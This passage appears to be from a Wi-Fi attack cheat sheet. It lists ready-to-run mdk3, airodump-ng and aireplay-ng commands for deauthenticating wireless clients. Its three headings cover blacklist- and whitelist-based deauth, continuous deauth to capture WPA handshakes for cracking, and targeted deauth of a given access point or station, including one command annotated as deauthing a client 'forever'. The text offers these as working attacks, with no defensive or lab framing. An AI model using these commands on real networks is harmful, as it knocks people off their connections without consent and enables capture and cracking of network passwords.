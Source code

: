 #### 1.1. Deauthenticate via blacklist/whitelist
```
# sudo mdk3 wlan0 d -w ignore
# sudo mdk3 wlan0 d -b blacklist
```


#### 1.2. Constantly deauth to capture WPA hand-shakes
```
# mdk3 wlan0 d -w ignore
# airodump-ng wlan1 --write ALL --output-format pcap
```


#### 1.3. Targeted deauthentication
```
# aireplay-ng wlan0 -0 1 -a <BSSID> -D # broadcast deauth all clients w/o AP detection
# aireplay-ng wlan0 -0 1 -a <BSSID> -c <STATION>
# aireplay-ng wlan0 -0 0 -a <BSSID> -c <STATION> # will deauth the client forever
# aireplay-ng wlan0 -0 1 -D -a <BSSID> -c <STATION> # deauth w/o AP detection (good for 5GHz enabled APs)
```
